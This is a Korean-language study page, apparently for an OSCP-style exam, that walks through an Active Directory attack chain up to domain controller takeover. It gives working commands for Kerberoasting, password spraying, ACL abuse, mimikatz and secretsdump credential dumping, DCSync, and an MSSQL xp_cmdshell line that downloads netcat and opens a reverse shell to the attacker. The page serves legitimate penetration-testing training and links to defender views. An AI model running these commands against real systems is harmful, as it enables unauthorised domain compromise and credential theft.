

# Active Directory { #active-directory }

<div class="dfir-meta" markdown>
**배점:** 40 / 100 (10 + 10 + 20) · **우선순위:** 최상 · **최종 수정:** 2026-11-03
</div>

!!! abstract "한 문장 요약"
    AD 세트는 주어진 도메인 사용자 계정(assumed breach)에서 시작해 머신 두 대를 거쳐 도메인 컨트롤러까지 이어집니다. 부분 점수도 인정되지만 합격 후기 대부분은 40점을 다 땄고, 발목을 잡는 건 보통 고급 기법이 아니라 놓친 크리덴셜 하나나 못 한 피벗입니다.

!!! tip "실전 실행 참고"
    명령 선택·출력 해석·실패 진단은 [실전 종합 가이드](practical-guide.md#ad), Windows·AD 프로토콜별 상세 사용법은 [Impacket 집중 가이드](impacket.md)를 참고하세요.

## 1. 개념 { #concept }

### AD 루프 { #ad-loop }

모든 AD 세트는 DC가 넘어갈 때까지 같은 루프를 반복합니다.



시험 스타일의 전형적인 사슬(실제 세부는 다를 수 있어요):

| 단계 | 어디서 → 어디로 | 흔한 기법 |
|---|---|---|
| 1 | 주어진 사용자 → MS01(외부) | WinRM / RDP 로그인, 그다음 로컬 권한 상승 |
| 2 | MS01 SYSTEM → 도메인 크리덴셜 | mimikatz / secretsdump, 파일, 히스토리 |
| 3 | Kali → 내부 서브넷 | MS01에 ligolo-ng agent |
| 4 | 도메인 크리덴셜 → MS02 | Kerberoast / 재사용 / ACL 악용 → WinRM / psexec / MSSQL |
| 5 | MS02 루팅 → Domain Admin 또는 DCSync 권한 | 캐시된 크리덴셜, 서비스 계정, ACL 경로 |
| 6 | → DC01 | DCSync → Administrator로 psexec / evil-winrm |

!!! tip "시간을 가장 많이 아끼는 습관"
    **새 크리덴셜은 어디서나 다 시도해 봅니다** — 모든 호스트, 모든 프로토콜(SMB, WinRM, RDP, MSSQL), 도메인 계정으로 *그리고* 로컬 계정으로(`--local-auth`). `creds.txt` 를 하나 만들어 두고, 뭔가 찾는 즉시 적어 넣으세요.

## 2. 주요 도구 { #tools }

| 도구 | 용도 | 실행 위치 |
|---|---|---|
| **NetExec (`nxc`)** | 크리덴셜 검증, 관리자 접근 찾기(`Pwn3d!`), 사용자, 공유, 정책, roasting, 스프레이, 명령 실행 | Kali |
| **Impacket** | `GetUserSPNs`, `GetNPUsers`, `secretsdump`, `psexec` / `wmiexec` / `smbexec`, `mssqlclient`, `getTGT`, `smbserver` | Kali |
| **evil-winrm** | WinRM(5985/5986) 위 대화형 PowerShell, upload / download | Kali |
| **BloodHound CE** + **SharpHound** / **bloodhound-ce-python** | 공격 경로 지도(세션, 관리자 권한, ACL) | 수집기는 대상 / Kali → GUI는 Kali |
| **Kerbrute** | Kerberos로 사용자 확인과 스프레이 | Kali |
| **Rubeus** | Windows에서 Kerberoast, AS-REP roast, 티켓 요청 / 전달 | 대상 |
| **mimikatz** | LSASS 크리덴셜, SAM, LSA secrets, DCSync, pass-the-hash | 대상 (관리자) |
| **PowerView** | PowerShell로 LDAP 정보 수집(사용자, SPN, ACL) | 대상 |
| **hashcat / john** | roast / 캡처한 해시 크랙 → [패스워드 공격](password-attacks.md) | Kali |

!!! danger "AD 세트에서 걸리는 시험 규칙"
    - **스푸핑 / 포이즈닝 금지:** 포이즈닝 모드의 Responder(LLMNR / NBT-NS / mDNS), **mitm6**, ARP / DNS 스푸핑(bettercap, arpspoof) — 전부 금지. 대신 [스푸핑 없는 coercion](#coercion)을 쓰세요.
    - **Metasploit은 한 대에만, Metasploit 피벗 금지** — 그래서 AD 사슬은 Impacket, NetExec, Rubeus, mimikatz, ligolo-ng로 합니다. [Metasploit 제한](exam-format.md#metasploit) 참고.
    - 작업 중 **AI / 챗봇 도움 금지** — 내 노트와 공개 자료만.
    - 전체 목록 → [시험 구조 › 금지 도구](exam-format.md#restricted).

## 3. 시나리오 { #scenarios }

### 3.1 Assumed breach 시작 — 크리덴셜 지도 그리기 { #assumed-breach-start }

**상황:** 컨트롤 패널이 `eric.wallows : EricLikesRunning800` 와 MS01의 IP를 줌.

```bash
# 이름부터 — Kerberos는 이름이 필요함
nxc smb 192.168.120.0/24                         # 배너에서 이름 / 도메인 확인
echo "$DC dc01.$DOMAIN dc01 $DOMAIN" | sudo tee -a /etc/hosts
# 선택: Kerberos 도구용으로 DC를 리졸버로 — /etc/resolv.conf 에 "nameserver $DC"

# 이 크리덴셜은 어디서 통하나?
for p in smb winrm rdp mssql ldap; do nxc $p <MS01_IP> -u "$USER_" -p "$PASS"; done
```

**볼 것:** `[+]` = 유효; SMB / WinRM의 `(Pwn3d!)` = 관리자 / 실행 가능. 구버전 NetExec에서는 WinRM `[+]` 에 Pwn3d!가 없어도 로그인되는 경우가 많으니 `evil-winrm` 을 시도해 보세요.

**다음:** 로그인(3.2)한 뒤 호스트에서:

```powershell
whoami /all; hostname; ipconfig /all     # 권한, 그룹, 두 번째 NIC?
net user /domain; net group "Domain Admins" /domain
```

관리자가 아니면 → [Windows 권한 상승](privesc-windows.md). 두 번째 NIC → [피벗팅](pivoting.md).

### 3.2 evil-winrm — 크리덴셜이나 해시로 대화형 셸 { #evil-winrm }

```bash
evil-winrm -i <IP> -u "$USER_" -p "$PASS"
evil-winrm -i <IP> -u Administrator -H <NT_HASH>                  # pass-the-hash
evil-winrm -i <IP> -u "$USER_" -p "$PASS" -s ~/exam/tools/ps     # 로컬 .ps1 스크립트를 이름으로 로드
```

```text
*Evil-WinRM* PS> upload /home/kali/exam/tools/winPEASx64.exe C:\Windows\Temp\wp.exe
*Evil-WinRM* PS> download C:\Windows\Temp\sam.save
```

**볼 것:** 프롬프트가 뜨면 → 들어옴. `WinRMAuthorizationError` → 크리덴셜은 맞지만 그 호스트의 *Remote Management Users* / 관리자에 없음. RDP / SMB / MSSQL을 시도하세요.

### 3.3 NetExec — 사용자 계정으로 도메인 정보 수집 { #netexec }

```bash
nxc smb $DC -u "$USER_" -p "$PASS" --pass-pol           # lockout threshold!
nxc smb $DC -u "$USER_" -p "$PASS" --users | tee loot/users.raw
nxc smb $DC -u "$USER_" -p "$PASS" --groups
nxc smb 10.10.120.0/24 -u "$USER_" -p "$PASS" --shares
nxc smb $DC -u "$USER_" -p "$PASS" -M spider_plus        # 읽을 수 있는 모든 공유 색인
nxc ldap $DC -u "$USER_" -p "$PASS" --kerberoasting kerb.hash
nxc ldap $DC -u "$USER_" -p "$PASS" --asreproast asrep.hash
nxc ldap $DC -u "$USER_" -p "$PASS" -M get-desc-users    # 설명에 남은 비밀번호
nxc smb 10.10.120.0/24 -u "$USER_" -p "$PASS" --loggedon-users
```

**볼 것:** 사용자 설명(`pwd: ...`), `SYSVOL` / `NETLOGON` 스크립트, 기본이 아닌 공유(`Backups`, `IT`, `Dev`), 비어 있지 않은 kerberoast / AS-REP 출력 파일.

**다음:** `users.txt` 만들기(`awk` 로 사용자 이름 추출), roast 해시 크랙, spider 출력에서 설정 파일 grep.

### 3.4 BloodHound CE — 공격 경로 찾기 { #bloodhound }

**상황:** 유효한 도메인 사용자가 있음. 누가 어디에 닿는지 알고 싶음.

=== "Kali에서 (bloodhound-ce-python)"

    ```bash
    # pip install bloodhound-ce   (bloodhound-python의 CE 호환 포크)
    bloodhound-ce-python -u "$USER_" -p "$PASS" -d $DOMAIN -ns $DC -c All --zip
    ```

=== "도메인 호스트에서 (SharpHound)"

    ```powershell
    .\SharpHound.exe -c All --zipfilename loot.zip
    # PowerShell 버전: Import-Module .\SharpHound.ps1; Invoke-BloodHound -c All
    ```

Kali에서 BloodHound CE를 띄우고(Docker, `bloodhound-cli` 나 프로젝트의 compose 파일로), `http://localhost:8080` 에 로그인해 ZIP을 업로드합니다.

**쿼리 순서:**

1. 내 사용자 검색 → **Owned로 표시**.
2. 내 사용자의 *Outbound Object Control*(GenericAll / GenericWrite / WriteDACL / WriteOwner / ForceChangePassword / AddMember).
3. Cypher / 기본 제공: *Kerberoastable users*, *AS-REP roastable users*.
4. *Shortest paths from Owned objects* 와 *Shortest paths to Domain Admins*.
5. 컴퓨터마다: *Local Admin Rights* / *CanPSRemote* / *CanRDP* / *SQLAdmin* 엣지.

**볼 것:** 내가 가진 것에서 내가 아직 못 가진 것으로 가는 엣지. 엣지 우클릭 → **Help / Abuse** 에 공격 방법이 나옵니다.

!!! warning "수집기와 GUI를 맞추세요"
    BloodHound **CE** 는 CE 수집기(SharpHound v2+, `bloodhound-ce-python`)가, 레거시 4.x GUI는 레거시 수집기가 필요합니다. 안 맞으면 아무것도 들어오지 않아요. 시험 전에 무엇을 쓸지 정하고 테스트해 두세요.

### 3.5 Kerberoasting — Impacket / Rubeus { #kerberoasting }

**상황:** BloodHound나 `nxc --kerberoasting` 이 SPN이 있는 사용자(`svc_sql`, `svc_web`)를 보여줌.

=== "Kali — Impacket"

    ```bash
    impacket-GetUserSPNs "$DOMAIN/$USER_:$PASS" -dc-ip $DC                    # 목록
    impacket-GetUserSPNs "$DOMAIN/$USER_:$PASS" -dc-ip $DC -request -outputfile kerb.hash
    ```

=== "Windows — Rubeus"

    ```powershell
    .\Rubeus.exe kerberoast /outfile:kerb.hash /nowrap
    ```

```bash
hashcat -m 13100 kerb.hash /usr/share/wordlists/rockyou.txt      # $krb5tgs$23$
```

**볼 것:** `$krb5tgs$23$*svc_sql$CORP.LOCAL$...`. `KRB_AP_ERR_SKEW` → 시간 차이: `sudo ntpdate $DC`(또는 `faketime`).

**다음:** 풀린 서비스 계정 → 스프레이(`nxc smb/winrm/mssql`) — 서비스 계정은 자기가 도는 서버의 관리자인 경우가 많아요.

전체 랩 실습 → [랩: Kerberoasting](labs/kerberoasting.md) · 방어자 관점 → [Kerberoasting](../../adversary/kerberoasting.md).

### 3.6 AS-REP roasting — Impacket / Rubeus { #asrep }

**상황:** *Do not require Kerberos pre-authentication* 이 켜진 사용자 — 사용자 이름만 알면 비밀번호 **없이도** 됩니다.

```bash
impacket-GetNPUsers "$DOMAIN/" -usersfile users.txt -dc-ip $DC -no-pass -format hashcat -outputfile asrep.hash
impacket-GetNPUsers "$DOMAIN/$USER_:$PASS" -dc-ip $DC -request -format hashcat -outputfile asrep.hash
hashcat -m 18200 asrep.hash /usr/share/wordlists/rockyou.txt
```

```powershell
.\Rubeus.exe asreproast /format:hashcat /outfile:asrep.hash /nowrap
```

방어자 관점 → [AS-REP Roasting](../../adversary/asrep-roasting.md).

### 3.7 패스워드 스프레이 — Kerbrute / NetExec { #spraying }

정책을 읽고, 비밀번호 하나씩:

```bash
nxc smb $DC -u "$USER_" -p "$PASS" --pass-pol
kerbrute passwordspray -d $DOMAIN --dc $DC users.txt "$PASS"          # 주어진 비밀번호 재사용?
nxc smb $DC -u users.txt -p 'Spring2026!' --continue-on-success
```

후보: 주어진 비밀번호, 푼 비밀번호 전부, `계절+연도!`, `Company123!`, 사용자 이름. 자세한 내용과 잠금 계산 → [패스워드 공격 › 스프레이](password-attacks.md#spraying).

### 3.8 ACL 악용 — BloodHound 엣지로 할 일 { #acl-abuse }

| 엣지 (내 사용자 → 대상) | Kali에서의 악용 |
|---|---|
| 사용자에 대한 **ForceChangePassword** | `net rpc password 'target' 'NewPass123!' -U "$DOMAIN/$USER_%$PASS" -S $DC` |
| 사용자에 대한 **GenericWrite / GenericAll** | Targeted Kerberoast: SPN 설정, roast, 제거 — `targetedKerberoast.py -d $DOMAIN -u "$USER_" -p "$PASS" --dc-ip $DC` |
| 사용자에 대한 **GenericAll** | 비밀번호 재설정(위와 같음) |
| 그룹에 대한 **AddMember / GenericAll** | `net rpc group addmem 'IT Admins' "$USER_" -U "$DOMAIN/$USER_%$PASS" -S $DC` |
| 도메인에 대한 **WriteDACL** | 나에게 DCSync 권한 부여(`impacket-dacledit -action write -rights DCSync ...`), 그다음 [DCSync](#domain-compromise) |
| **WriteOwner** | 소유권 가져오기(`impacket-owneredit`), 그다음 GenericAll 부여 |
| **ReadGMSAPassword / ReadLAPSPassword** | `nxc ldap $DC -u "$USER_" -p "$PASS" --gmsa` / `-M laps` |

Windows에서는 같은 작업이 PowerView에 있습니다(`Set-DomainUserPassword`, `Add-DomainGroupMember`, `Set-DomainObject`).

**다음:** 그룹을 바꾼 뒤에는 새로 로그온하세요(새 셸 / 새 티켓) — 그룹 멤버십은 로그온 시점에 읽힙니다.

### 3.9 스푸핑 없는 coercion — NetNTLMv2 캡처 { #coercion }

**상황:** 사용자나 서비스의 NetNTLMv2 해시가 필요한데, Responder식 포이즈닝은 금지.

내가 통제하는 SMB 서버를 띄우고 대상이 **그 서버로 접속하게** 만듭니다.

```bash
impacket-smbserver share /tmp/share -smb2support       # 잡힌 NetNTLMv2 해시를 출력
```

대상이 접속하게 만드는 방법:

- **MSSQL:** `impacket-mssqlclient` 에서 `EXEC master..xp_dirtree '\\<KALI>\share';` → SQL 서비스 계정의 해시.
- **누군가 둘러보는 쓰기 가능 공유:** 아이콘 경로가 `\\<KALI>\share\x.ico` 인 `.url` / `.lnk` / `.library-ms` 를 놓기.
- **Windows의 웹 앱 / LFI:** 경로 파라미터를 `\\<KALI>\share\x` 로.

```bash
hashcat -m 5600 netntlmv2.txt /usr/share/wordlists/rockyou.txt
```

!!! danger "시험 규칙"
    *내가 유발한* 접속을 기다리는 건 괜찮습니다. 피해자가 실수로 나에게 접속하도록 이름 해석(LLMNR / NBT-NS / mDNS / DHCPv6)을 **포이즈닝** 하는 건 스푸핑이라 금지예요. 릴레이(ntlmrelayx)는 접속을 어떻게 유발했느냐에 달린 회색 지대이니, 의존하기 전에 최신 Exam Guide를 확인하세요. 방어자 관점 → [LLMNR / NTLM 릴레이](../../adversary/llmnr-ntlm-relay.md).

### 3.10 횡적 이동 { #lateral-movement }

가진 것과 열린 포트에 따라 방법을 고릅니다.

| 가진 것 | 포트 | 명령 | 결과 권한 |
|---|---|---|---|
| 관리자 비밀번호 / 해시 | 445 | `impacket-psexec "$DOMAIN/admin:Pass@<IP>"` 또는 `-hashes :<NT>` | SYSTEM (시끄러움: 서비스 생성) |
| 관리자 비밀번호 / 해시 | 135 + 445 | `impacket-wmiexec "$DOMAIN/admin@<IP>" -hashes :<NT>` | 그 사용자 (반대화형) |
| 관리자 비밀번호 / 해시 | 445 | `impacket-smbexec ...` / `nxc smb <IP> ... -x 'whoami'` | SYSTEM |
| Remote Management Users / 관리자 | 5985 | `evil-winrm -i <IP> -u user -H <NT>` | 그 사용자 |
| RDP 권한 | 3389 | `xfreerdp3 /v:<IP> /u:user /p:'Pass' /d:$DOMAIN` | 그 사용자 (GUI) |
| SQL 로그인 | 1433 | `impacket-mssqlclient "$DOMAIN/user:Pass@<IP>" -windows-auth` | SQL 서비스 계정 |
| Kerberos만 됨 / NTLM 차단 | 88 | `impacket-getTGT "$DOMAIN/user" -hashes :<NT>` → `export KRB5CCNAME=user.ccache` → `impacket-psexec -k -no-pass "$DOMAIN/user@ms02.$DOMAIN"` | — |

**MSSQL → 명령 실행:**

```text
SQL> enable_xp_cmdshell
SQL> xp_cmdshell whoami /priv
SQL> xp_cmdshell powershell -c "iwr http://<KALI>/nc.exe -o C:\Windows\Temp\nc.exe; C:\Windows\Temp\nc.exe <KALI> 443 -e cmd"
```

SQL 서비스 계정은 보통 `SeImpersonatePrivilege` 를 가집니다 → [potato](privesc-windows.md#token-privileges).

**볼 것:** `[*] Found writable share ADMIN$` → psexec 가능. `rpc_s_access_denied` → 관리자 아님. 같은 크리덴셜로 WinRM / RDP / MSSQL을 시도. Kerberos에서는 항상 IP가 아니라 **호스트 이름** 을 쓰세요.

방어자 관점 → [Pass-the-Hash](../../adversary/pass-the-hash.md) · [PsExec / SMB](../../adversary/psexec-smb.md) · [WMI / WinRM](../../adversary/wmi-winrm.md) · [RDP](../../adversary/rdp.md).

### 3.11 머신마다 루팅 — mimikatz / secretsdump { #looting }

호스트에서 관리자 / SYSTEM이 되는 즉시 — **넘어가기 전에** — 크리덴셜을 모읍니다.

#### mimikatz (대상에서) { #mimikatz }

```powershell
.\mimikatz.exe "privilege::debug" "token::elevate" "sekurlsa::logonpasswords" "lsadump::sam" "lsadump::secrets" "lsadump::cache" "exit" > C:\Windows\Temp\mk.txt
```

**볼 것:** `sekurlsa::logonpasswords` → 로그온한 모든 사용자의 `Username / Domain / NTLM`(wdigest나 서비스 계정이면 가끔 평문 `Password`); `lsadump::secrets` → `_SC_<서비스>` = 서비스 계정의 평문 비밀번호; `lsadump::cache` → DCC2 해시(`-m 2100`, 느림); `lsadump::sam` → 로컬 Administrator NT 해시.

#### secretsdump (Kali에서) { #secretsdump }

```bash
impacket-secretsdump "$DOMAIN/admin:Pass@<IP>"                 # 원격으로 SAM + LSA secrets + 캐시된 크리덴셜
impacket-secretsdump -hashes :<NT> "./Administrator@<IP>"      # 로컬 관리자 해시
impacket-secretsdump -sam sam.save -system system.save -security security.save LOCAL
```

#### 수동으로 { #manual-loot }

```powershell
cmdkey /list
type C:\Users\*\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt
Get-ChildItem C:\Users -Include *.txt,*.ps1,*.xml,*.config,*.kdbx -Recurse -ErrorAction SilentlyContinue
```

**다음:** 모든 해시 / 비밀번호를 `creds.txt` 에 넣고 내부 서브넷 전체에 다시 [스프레이](#spraying).

방어자 관점 → [LSASS 덤프](../../adversary/lsass-dumping.md) · [SAM / NTDS 추출](../../adversary/sam-ntds-extraction.md).

### 3.12 도메인 장악 { #domain-compromise }

**상황:** Domain Admin 크리덴셜이나 *Replicating Directory Changes (All)* 권한이 있는 사용자(BloodHound 엣지 `DCSync`)를 가짐.

```bash
# Kali에서 DCSync
impacket-secretsdump "$DOMAIN/da_user:Pass@dc01.$DOMAIN" -just-dc-user Administrator
impacket-secretsdump "$DOMAIN/da_user:Pass@dc01.$DOMAIN" -just-dc-ntlm      # 모든 사용자
# DC 셸
impacket-psexec -hashes :<ADMIN_NT> "$DOMAIN/Administrator@dc01.$DOMAIN"
evil-winrm -i $DC -u Administrator -H <ADMIN_NT>
```

```powershell
# 권한 있는 사용자로 Windows 호스트에서 DCSync
.\mimikatz.exe "lsadump::dcsync /domain:corp.local /user:Administrator" "exit"
```

**볼 것:** `Administrator:500:aad3b...:<NT>:::`. **다음:** DC 셸에서 `type C:\Users\Administrator\Desktop\proof.txt`, `whoami`, `ipconfig` → 스크린샷.

공부할 다른 도메인 수준 경로(각각 방어자 페이지가 있음): [DCSync](../../adversary/dcsync.md) · [Golden & Silver Tickets](../../adversary/golden-silver-tickets.md) · [AD CS 악용](../../adversary/adcs-abuse.md) · 위임(constrained / unconstrained / RBCD) · 쓰기 가능한 GPO.

## 4. 자주 하는 실수 { #pitfalls }

- **AD 방법론이 없음** — 후기에서 첫 시도 실패 원인 1위. 루프가 몸에 밸 때까지 반복하세요.
- **크리덴셜을 어디서나 시도하지 않음** — 특히 `--local-auth` 와 MSSQL.
- **`/etc/hosts` 나 시간 동기화 누락** → Kerberos 도구가 `KDC_ERR_S_PRINCIPAL_UNKNOWN` / `KRB_AP_ERR_SKEW` 로 실패.
- **잠금 정책을 안 읽고 스프레이.**
- **루팅 없이 넘어가기** — 다음 크리덴셜은 보통 방금 딴 호스트에 있습니다.
- **피벗에서 멈춤** — MS01은 땄는데 MS02 서브넷으로 라우팅을 못 함 → [피벗팅](pivoting.md).
- **BloodHound 수집기 / GUI 불일치** → 빈 그래프.
- **지친 상태로 AD 세트.** 연결된 40점이니 맑을 때 하세요.

## 5. 시험 팁 { #exam-tips }

- 부분 점수 인정: MS01 = 10, MS02 = 10, DC = 20. 플래그는 얻는 즉시 제출하세요.
- 호스트마다 노트 한 페이지: 어떻게 들어갔는지, 거기서 찾은 크리덴셜, 스크린샷.
- 새 사용자를 딸 때마다 BloodHound를 다시 수집하세요 — 새 엣지가 생깁니다.
- 새 정보 없이 2시간쯤 막히면 standalone으로 전환하고 맑은 머리로 돌아오세요([시험 구조 › 점수 전략](exam-format.md#scoring-strategy)).

## 관련 페이지 { #related-pages }

- [시험 흐름](exam-workflow.md) · [패스워드 공격](password-attacks.md) · [피벗팅](pivoting.md) · [Windows 권한 상승](privesc-windows.md)
- 방어자 관점: [Kerberoasting](../../adversary/kerberoasting.md) · [AS-REP Roasting](../../adversary/asrep-roasting.md) · [Pass-the-Hash](../../adversary/pass-the-hash.md) · [DCSync](../../adversary/dcsync.md) · [Golden & Silver Tickets](../../adversary/golden-silver-tickets.md) · [AD CS 악용](../../adversary/adcs-abuse.md) · [LLMNR / NTLM 릴레이](../../adversary/llmnr-ntlm-relay.md) · [LSASS 덤프](../../adversary/lsass-dumping.md) · [SAM / NTDS 추출](../../adversary/sam-ntds-extraction.md) · [PsExec / SMB](../../adversary/psexec-smb.md) · [WMI / WinRM](../../adversary/wmi-winrm.md) · [RDP](../../adversary/rdp.md)
- Windows 아티팩트: [이벤트 로그](../../windows/event-logs.md) · [Windows 이벤트 ID](../../basics/windows-event-ids.md)
- [Red Team: Post-Exploitation](../../redteam/post-exploitation/index.md) · [랩: Kerberoasting](labs/kerberoasting.md)

## 참고 자료 { #references }

- [OffSec — OSCP Exam with AD Preparation](https://help.offsec.com/hc/en-us/articles/4547917816468-Offensive-Security-OSCP-Exam-with-AD-Preparation)
- [BloodHound CE documentation](https://bloodhound.specterops.io/)
- [Impacket](https://github.com/fortra/impacket) · [NetExec wiki](https://www.netexec.wiki/)
- [The Hacker Recipes — AD](https://www.thehacker.recipes/)
